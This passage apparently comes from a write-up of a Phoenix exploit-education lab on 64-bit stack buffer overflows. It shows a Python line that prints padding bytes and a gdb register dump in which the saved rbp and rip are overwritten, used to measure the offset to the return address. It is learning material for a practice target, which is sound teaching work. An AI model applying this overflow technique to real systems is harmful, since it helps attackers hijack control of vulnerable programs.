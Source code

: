 We have filled 128 times 'A', so we can see nothing is really overflowed. Let's add:

```python
print((128 + 8) * b'A')
```

![gdb2](/assets/phoenix/gdb2.png)

We are hitting a crucial point—I'm estimating 128 + 6 = 134 buffer from `rbp-0x80` to `rbp`.

We can confirm this as we are overflowing the `rbp` too by 134 bytes:

```gdb
0x0000000000274242 in ?? ()
(gdb) info register
rax            0x7fffffffebe0      140737488350176
rbx            0x7fffffffecd8      140737488350424
rcx            0x8080808080808080  -9187201950435737472
rdx            0x7fffffffec3f      140737488350271
rsi            0xfefefefefefefeff  -72340172838076673
rdi            0x7fffffffec6c      140737488350316
rbp            0x4242424242424141  0x4242424242424141
rsp            0x7fffffffec70      0x7fffffffec70
r8             0x7fffffffebe0      140737488350176
r9             0xa0a0a0a0a0a0a0a   723401728380766730
r10            0x8080808080808080  -9187201950435737472
r11            0x4                 4
r12            0x7fffffffece8      140737488350440
r13            0x4005a4            4195748
r14            0x0                 0
r15            0x0                 0
rip            0x274242            0x274242
eflags         0x202               [ IF ]
```
